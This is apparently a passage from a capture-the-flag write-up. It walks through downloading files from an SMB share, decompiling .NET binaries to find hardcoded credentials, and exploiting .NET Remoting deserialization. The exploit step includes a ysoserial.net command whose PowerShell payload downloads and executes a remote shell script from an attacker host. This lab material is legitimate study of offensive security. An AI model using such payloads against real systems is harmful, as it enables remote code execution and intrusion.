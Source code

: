Accessing the SMB share _dev_ with the user _lars_ and downloading all files:
```
smbclient -U lars //10.10.10.219/dev

smb: \> mget *
```

In there are two EXE files and one DLL file and one note:
- Client.exe
- Server.exe
- RemotingLibrary.dll
- notes.txt

The file _notes.txt_ has the following information:
```
Todo:
    Migrate from .Net remoting to WCF
    Add input validation
```

By analyzing the files with **dnSpy** on Windows, we can find out more information about these **.NET binaries**.

The `StartServer()` function in _Server.exe_ shows that a service is running on port 8888:
```cs
((IDictionary)hashtable)["port"] = 8888;
(...)
```

The `main()` function in _Client.exe_ contain secrets for the service on port 8888:
```cs
IDictionary channelSinkProperties = ChannelServices.GetChannelSinkProperties((Remoting)Activator.GetObject(typeof(Remoting), "tcp://localhost:8888/SecretSharpDebugApplicationEndpoint"));

channelSinkProperties["username"] = "debug";
channelSinkProperties["password"] = "SharpApplicationDebugUserPassword123!";
```

In _RemotingLibrary.dll_ there is not much information, but this binary probably uses the **.NET Remoting** library and the _notes.txt_ also confirms that.

## Exploiting .NET Remoting (Port 8888)

This [article from NCC Group](https://research.nccgroup.com/2019/03/19/finding-and-exploiting-net-remoting-over-http-using-deserialisation/) explains how to exploit .NET Remoting and I will use the tool [ExploitRemotingService](https://github.com/tyranid/ExploitRemotingService) from GitHub.

Creating a serialized object with the [YSoSerial.Net](https://github.com/pwntester/ysoserial.net) utility:
```
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/shell.ps1')"
```
```
AAEAAAD/////AQAAAAAAAAAMA(...)
```
